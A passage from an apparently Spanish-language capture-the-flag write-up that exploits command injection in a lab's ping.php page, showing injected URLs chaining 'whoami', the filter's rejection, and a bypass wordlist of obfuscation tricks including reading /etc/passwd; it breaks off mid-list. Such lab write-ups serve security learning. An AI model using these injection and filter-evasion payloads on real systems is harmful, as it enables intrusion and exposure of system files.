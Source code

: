 ## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora que sabemos que realizar por detras el comando **ping** intentaremos aprovecharnos de eso para intentar escapar un comando:
```bash
http://172.17.0.2/ping.php?ip=172.17.0.1; whoami
```

En la web nos reporta que no esta permitido ese comando, Asi que aplica una validacion para evitar que logremos inyectar comandos:
```bash
Comando no permitido.
```

Lista de comandos probados:
```bash
172.17.0.2/ping.php?ip=172.17.0.1; && whoami
http://172.17.0.2/ping.php?ip=172.17.0.1; || whoami
http://172.17.0.2/ping.php?ip=172.17.0.1;%20||%20whoami
172.17.0.2/ping.php?ip=172.17.0.1; w h o a m i
```

Viendo que valida las entradas recuriremos a un diccionario de coamandos de tipo **bypass** y ese es el que usare:
```bash
# File: command_bypass.txt
# Command Bypass Techniques for Linux/Unix Environments

# Wildcard Character Bypass
/usr/bin/p?ng
nma? -p 80 localhost
/usr/bin/who*mi
/usr/s?in/us?r?update
/c?t/?tc/p?ss?d

# Special Character Handling
touch -- -la
touch ./-la
touch -- --help

# Command Concatenation
/usr/bin/who$(echo ami)
/usr/bin/n[c]
'p'i'n'g
"w"h"o"a"m"i
p\i\n\g
w\h\o\a\m\i
\u\n\a\m\e \-\a
p\
i\
n\
g

# Null Byte and Empty Strings
ech''o test
ech""o test
bas''e64
cat$u /etc$u/passwd$u
p${u}i${u}n${u}g
p$(u)i$(u)n$(u)g
w`u`h`u`o`u`a`u`m`u`i
cat${null}file.txt

# History Recall
```